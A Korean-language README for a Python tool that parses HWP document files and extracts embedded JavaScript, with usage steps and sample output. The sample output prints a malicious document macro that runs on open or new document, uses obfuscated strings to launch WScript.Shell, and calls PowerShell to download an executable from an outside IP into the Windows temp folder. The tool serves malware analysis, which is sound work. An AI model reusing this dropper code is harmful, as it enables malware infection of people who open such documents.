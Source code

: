 # HWP parser 

### 어떤 기능을 하는가?

hwp 파일에 담겨있는 JavaScript 항목을 추출해 주는 도구입니다.



### 어떻게 사용하는가?

1. 입력

   ```
   >> python hwp-parser.py [hwp 확장자 파일명]
   
   ex)
   >> python hwp-parser.py macro1.hwp
   ```

   

2. 출력

   ```
   ex)
   magic number: b'\xd0\xcf\x11\xe0\xa1\xb1\x1a\xe1'
   number_bbat_depot: 1
   start_entry_of_property: 2
   start_cluster_of_sbat: 6
   number_sbat_depot: 1
   array_bbat: [3]
   property_entry_list: [2, 4, 5, 52]
   ========================= JavaScript ===============================
   Ovar Documents = XHwpDocuments;
   var Document = Documents.Active_XHwpDocument;
   ɛfunction OnDocument_New()
   {
   try{
   wsh = newActiveXObject("W"+"S"+"ri"+"p"+"t"+".S"+"he"+"ll");
   var f1 = "powershell.exe -command(New-Object System.Net.WebClint).DownloadFile('http://13.20.9.8.118/IE/CVE-2018-8373/a.exe','C:/windows/temp/BOB.exe')";
   wsh.Run(f1);
   };catch(err){};
           //todo :
   }
   function OnDocument_Open()
   {
   
   try{
   wsh = newActiveXObject("W"+"S"+"ri"+"p"+"t"+".S"+"he"+"ll");
   var f1 = "powershell.exe -command(New-Object System.Net.WebClint).DownloadFile('http://13.20.9.8.118/IE/CVE-2018-8373/a.exe','C:/windows/temp/BOB.exe')";
   wsh.Run(f1);
   };catch(err){};
   
           //todo :
   }
   ```

   위와 같이, hwp의 매직넘버와 hwp의 다양한 파일 시스템 정보를 나타내고, 이후 JavaScript 코드를 추출하여 출력해준다.